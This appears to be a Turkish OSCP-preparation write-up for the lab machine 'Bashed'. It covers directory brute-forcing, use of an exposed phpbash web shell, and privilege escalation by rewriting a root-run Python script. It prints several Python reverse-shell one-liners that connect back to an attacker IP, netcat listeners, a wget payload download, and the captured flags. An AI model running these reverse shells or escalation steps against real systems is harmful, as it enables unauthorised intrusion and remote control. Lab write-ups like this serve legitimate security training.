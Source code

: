 # OSCP_Preparation

Makine: Bashed

 Nmap'i -A parametresi ile birlikte çalıştırıyorum. 

 -A parametresi NMAP’te en sık kullanılan parametrelerin bazılarını otamatik olarak kullanılmış olur.
Bunlar ise İşletim Sistemi Tespiti, Versiyon Tespiti, Script taraması ve Traceroute’tur. 

```console
──(naoumine㉿darker)-[~]
└─$ gobuster dir -u http://10.129.90.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                                               
```

![image](./assets/1.PNG)


İlgili URL'e gidelim ve biraz kurcalayalım.

![image](./assets/2.PNG)

Sayfa içindeki link: https://github.com/Arrexel/phpbash

http://10.129.90.18/dev/phpbash.php dizinine gittiğimizde komut çalıştırabildiğimizi görüyoruz.

![image](./assets/2.PNG)

Burada kullanıcının yetkilerine bakıyoruz ve makina içerisinde python olduğunu doğruluyoruz. Şimdi reverse shell çalıştırmayı deneyelim.

Etkileşimsiz kabuktan etkileşimli kabuğa geçebilmek için çeşitli yöntemler bulunmaktadır. Bu yöntemlerden birisi de Python paketi kurulu olan hedef sistemde pty (Pseudo-terminal Utilities) modülünün spawn metodunu kullanmaktadır. Böylece aynı yetkiler ile etkileşimli komut satırı elde edilebilir.

![image](./assets/3.PNG)

ilk başta www.data kullanıcısı ile dosya yetkilerine bakmaya çalıştık ancak görüntüleyemedik bu yüzden scriptmanager kullanıcısı ile görüntülüyoruz.

scriptmanager'a ait bir python scripts'inin bulunduğu görüldü!

![image](./assets/4.PNG)

scriptmanager kullanıcısının text.py üzerinde yetkisi var ama garip olan text.txt neden bir root yetkisinde? Tahminimce test.py kodu kendi isteğimize göre düzenleyip işletirsek bu sonuç test.txt içine basılacak. Sonuç olarak root yetkisinde olan bir dosyaya ulaşmamızın bir anahtarı olabilir.

![image](./assets/5.PNG)

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet linkindeki dosyayı indirip düzenledik.

```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Localimizde dinlemeye aldık ve hedef makine de hazırladığımız shell'i çalıştırdık.

```console
nc -nvlp 1234
```
![image](./assets/6.PNG)

User Flag: 2c281f318555dbc1b856957c7147bfc1

```console
sudo -i -u scriptmanager
```

```console
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

test1.py olarak kendi localimde kaydedip hedef makinaya dosyayı indirdim.

python -m SimpleHTTPServer    

wget http://10.10.14.18:8000/test1.py

nc -nvlp 8888


![image](./assets/7.PNG)


Root Flag: cc4f0afe3a1026d402ba10329674a8e2

Ek Yöntem:

echo "import socket, subprocess, os; f=open("test.txt","w"); f.write("privesc"); f.close; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.18",9999)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);" > test.py